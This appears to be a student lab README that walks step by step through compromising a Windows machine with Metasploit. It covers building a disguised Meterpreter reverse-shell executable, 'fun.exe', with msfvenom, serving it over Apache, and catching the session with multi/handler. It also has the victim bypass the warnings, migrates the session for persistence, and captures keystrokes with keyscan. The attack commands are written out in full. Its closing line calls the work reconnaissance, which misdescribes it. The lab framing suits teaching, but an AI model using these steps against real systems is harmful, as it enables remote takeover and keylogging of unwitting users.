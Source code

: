 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/09d09be2-6084-4db9-a066-fd34c1a29e74)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/1a87b87e-812f-457f-be8c-52f43d14548e)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/bfc40087-91be-4cbf-9e7a-09221b6a0e88)

Start apache server
sudo systemctl apache2 start

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/fdf42e7a-e11b-4f32-a4e4-0dc1f3274c8b)

Check the status of apache2

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/81301d0b-a221-47de-8c3e-905f5e6f6c71)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/3c9e1ea3-0cfd-42ba-a8aa-85519f13e32a)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/1b0c0300-a2d7-4da0-ab04-841e1e172292)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/bd146aa9-77b5-4ee1-8b2f-9191170cfa28)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/1b01b9a2-e093-4c5a-a58e-e5901a270dcf)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/2a635d49-41b0-40a6-8912-88556e66c494)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/3b4c87bd-345f-4f35-aa50-086dbb2a7b3a)
keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/danush564/Compromising-windows-using-Metasploit/assets/98585166/36306d31-61cd-42bb-9d47-ba93c1234909)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
